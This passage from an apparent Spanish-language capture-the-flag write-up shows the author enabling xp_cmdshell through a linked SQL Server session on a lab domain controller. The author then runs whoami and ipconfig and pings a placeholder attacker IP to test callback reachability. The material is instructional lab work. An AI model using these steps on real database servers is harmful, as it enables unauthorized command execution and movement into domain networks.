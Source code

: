 Ya deberíamos poder activar la **xp_cmdshell**:
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> enable_xp_cmdshell
INFO(DC02): Line 196: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
INFO(DC02): Line 196: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
```
Sí pudimos.

Comprobemos nuestro usuario en el **AD2**:
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell "whoami"
output                 
--------------------   
darkzero-ext\svc_sql   

NULL
```
Sí somos el **usuario sql_svc**.

Veamos qué IP tiene el **AD2**:
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell "ipconfig"
output                                                 
----------------------------------------------------   
NULL                                                   
...
Ethernet adapter Ethernet:                             

NULL                                                   

   Connection-specific DNS Suffix  . :                 

   IPv4 Address. . . . . . . . . . . : 172.16.20.2     

   Subnet Mask . . . . . . . . . . . : 255.255.255.0   

   Default Gateway . . . . . . . . . : 172.16.20.1     

NULL
```
Bien, está en el mismo segmento que vimos cuando enumeramos el **servicio DNS**.

Podemos comprobar si la **máquina AD2** puede alcanzar a nuestra máquina:
```bash
SQL >"DC02.darkzero.ext" (dc01_sql_svc  dbo@master)> xp_cmdshell "ping Tu_IP"
output                                                     
--------------------------------------------------------   
NULL                                                       

Pinging Tu_IP with 32 bytes of data:                 

Reply from Tu_IP: bytes=32 time=73ms TTL=62          
...

Ping statistics for Tu_IP:                           

    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),   

Approximate round trip times in milli-seconds:             

    Minimum = 73ms, Maximum = 75ms, Average = 73ms
```
Sí pudo. 
